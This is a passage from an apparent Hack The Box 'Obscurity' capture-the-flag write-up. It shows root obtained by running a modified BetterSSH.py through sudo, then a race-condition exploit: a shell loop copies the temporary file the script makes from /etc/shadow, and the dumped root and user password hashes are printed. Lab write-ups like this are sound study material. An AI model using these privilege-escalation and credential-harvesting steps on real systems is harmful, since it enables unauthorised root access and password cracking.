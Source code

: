 The above works. `rm` won't work because the files inside that folder are owned by `root`, and I cannot modify them.

Then, just do the following:

```bash
cd BetterSSH
/usr/bin/sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

We can then easily get `root`:

![](../../../.gitbook/assets/htb-obscurity-image-5.png)

Rooted!

### Intended Root --> Race Condition

The above was not the intended method, so let's take a look at the script. The script opens `/etc/shadow`, and then puts the password in a separate file while it does `sleep`.

This means there's an exploitable race condition, and we just need to `cp` that password file over.

We just need to have an ongoing loop copying files over, and then execute the file in another `ssh` session:

```bash
mkdir /tmp/SSH
while true; do cp -R /tmp/SSH/* . 2>/dev/null; done
```

When we run the script again, we would find a file like this:

```
$ cat sg5gTFJU 
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7




robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```
